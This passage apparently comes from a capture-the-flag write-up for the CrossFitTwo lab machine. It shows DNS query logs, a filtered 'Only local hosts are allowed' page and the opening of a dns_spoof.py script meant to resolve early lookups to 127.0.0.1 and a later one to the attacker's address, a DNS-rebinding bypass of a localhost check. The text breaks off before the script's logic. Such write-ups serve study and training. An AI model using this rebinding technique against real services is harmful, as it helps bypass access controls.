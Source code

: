 ```php
;; QUESTION SECTION:
;sm1l3zemployees.crossfit.htb.  IN      A
;; ADDITIONAL SECTION:
;; OPT PSEUDOSECTION
; EDNS: version: 0, flags: do; udp: 4096
---- Reply:
 ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 1102
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 2
;; QUESTION SECTION:
;sm1l3zemployees.crossfit.htb.  IN      A
;; ANSWER SECTION:
sm1l3zemployees.crossfit.htb. 600     IN      A       10.10.14.65
;; AUTHORITY SECTION:
sm1l3zemployees.crossfit.htb. 600     IN      SOA     ns1.sm1l3zemployees.crossfit.htb. andrei.sm1l3zemployees.crossfit.htb. 201307231 3600 10800 86400 3600
;; ADDITIONAL SECTION:
sm1l3zemployees.crossfit.htb. 600     IN      NS      ns1.sm1l3zemployees.crossfit.htb.
sm1l3zemployees.crossfit.htb. 600     IN      NS      ns2.sm1l3zemployees.crossfit.htb.
```

[![wireshark_double](/img/crossfittwo/wireshark_double.png)](/img/crossfittwo/wireshark_double.png)

Looking at the output from the curl request it seems like we also have to forward the second request to localhost aswell to bypass the filtering.

```php
...[snip]...
<body>
<div class="alert alert-danger alert-dismissible fade show" role="alert">Only local hosts are allowed.<button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button></div>
        <div class="limiter">
...[snip]...
```

Modyfing our `dns_spoof.py` script we change it to resolve the first two requests to `127.0.0.1` and the third request to our ip.

`dns_spoof.py`
```py
#!/usr/bin/env python
# coding=utf-8

import argparse
import datetime
import sys
import time
import threading
import traceback
import socketserver
import struct
try:
    from dnslib import *
except ImportError:
    print("Missing dependency dnslib: <https://pypi.python.org/pypi/dnslib>. Please install it with `pip`.")
    sys.exit(2)

a = 1
class DomainName(str):
```